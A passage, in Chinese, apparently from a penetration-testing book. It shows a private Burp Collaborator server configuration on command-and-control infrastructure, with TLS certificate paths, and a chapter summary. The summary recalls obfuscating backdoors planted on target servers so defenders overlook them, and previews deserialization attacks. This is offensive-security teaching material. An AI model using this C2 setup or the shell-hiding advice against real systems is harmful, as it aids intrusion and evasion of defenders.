为了解决这个问题，对于我们无法控制的目标信任的根证书颁发机构，我们需要安装一个由公共证书颁发机构签署的证书。

`config.json` 将稍作修改，指向 Collaborator 使用这个证书及其私钥：

```
**root@spider-c2-1:~/collab# cat config.json**
**{**
 **"serverDomain": "c2.spider.ml",**
 **"ssl": {**
 **"hostname": "c2.spider.ml"**
 **},**
 **"eventCapture": {**
 **"publicAddress" : "35.196.100.89",**
 **"ssl": {**
 **"certificateFiles" : [**
 **"keys/wildcard.c2.spider.ml.key.pkcs8",**
 **"keys/wildcard.c2.spider.ml.crt",**
 **"keys/intermediate.crt"**
 **]**
 **}**
 **},**
 **"polling" : {**
 **"publicAddress" : "35.196.100.89",**
 **"ssl": {**
 **"hostname" : "polling.c2.spider.ml"**
 **}**
 **},**
 **"dns": {**
 **"interfaces": [{**
 **"localAddress": "0.0.0.0",**
 **"publicAddress": "35.196.100.89"**
 **}]**
 **},**
 **"logLevel": "DEBUG"**
**}**

```

在一个名为 `keys` 的子目录中，我们需要放置 PKCS 8 编码的私钥、相应的公签证书以及任何中间证书颁发机构证书，这些证书我们可能需要断开以便证书链能够验证。在前一章中，我们成功生成了 C2 域的证书，可以在这里继续使用。

# 摘要

本章展示了一些工具和技术，它们协同工作，使得原本繁琐的环节变得顺畅。Burp Suite 或免费的替代工具 OWASP ZAP，都提供了扩展功能的方式，并且可以快速完成重复性任务。

我们还查看了一种简单的方法，用来混淆可能最终出现在目标系统上的代码。当在服务器上放置自定义 shell 时，最好隐藏其真实功能。如果代码看起来过于复杂，路过的蓝队成员可能不会多看一眼。我们使用了一些工具，快速将生成的后门转化为一个不那么显眼的输出。

最后，基于前一章中提到的带外漏洞发现技术，我们利用 Burp 的 Collaborator 服务器来简化整个过程。Collaborator 是一个不可或缺的工具，如果可能，应该在攻击 Web 应用时始终启用。在下一章中，我们将切换话题，研究如何利用与对象序列化相关的有趣漏洞类别。

在下一章中，我们将切换话题，研究一种越来越常见的漏洞类型，如果成功利用，可能会带来毁灭性的后果。反序列化攻击将长期存在，我们将深入了解它们是如何工作的以及如何利用它们。
